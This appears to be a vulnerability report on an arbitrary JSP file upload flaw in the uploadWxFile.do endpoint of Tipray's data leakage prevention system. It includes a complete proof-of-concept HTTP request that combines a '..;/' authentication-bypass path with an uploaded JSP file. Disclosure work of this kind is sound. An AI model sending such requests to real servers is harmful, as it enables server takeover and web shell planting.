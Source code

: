 # File Upload Vulnerability in the uploadWxFile.do Interface of Tipray Data Leakage Prevention System

## Vulnerability Analysis
From the dependencies, it can be seen that the system relies on `MultipartFile` for file uploads. We performed a global search for this keyword.

<img width="2099" height="240" alt="image" src="https://github.com/user-attachments/assets/d5d31156-f03e-4018-93a0-26d04acc4906" />

The system receives a `MultipartFile` from the frontend and immediately passes it to the `uploadWxFileToRoot` method. We traced into its implementation, focusing on whether there are restrictions on file extensions.

<img width="2139" height="816" alt="image" src="https://github.com/user-attachments/assets/28a1f91f-5f7a-4a34-b8b9-0a348184509c" />

It is obvious that **no restrictions on file extensions are imposed here**. The storage path is `String.valueOf(System.getProperty("catalina.home")) + File.separator + "webapps" + File.separator + "ROOT" + File.separator`, which is essentially the parent directory of the current project.

Based on this, we constructed the following data packet:

```
POST http://ip/trwfe/login.jsp/..;/config/uploadWxFile.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydef456
Content-Length: 288

------WebKitFormBoundarydef456
Content-Disposition: form-data; name="file"; filename="test.jsp"  
Content-Type: application/octet-stream


<% out.print("HelloWorldTest");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundarydef456--
```

<img width="1634" height="729" alt="image" src="https://github.com/user-attachments/assets/fbdad1b2-3fc4-4449-8236-65dae6395498" />

<img width="1020" height="230" alt="image" src="https://github.com/user-attachments/assets/d11403f1-95c3-48c7-981c-ac46009a652d" />

Based on the above results, it is proven that the `uploadWxFile.do` interface has an **arbitrary file upload vulnerability**, which can lead to the critical risk of server takeover.

Thank you for your review. Wish you a pleasant day!
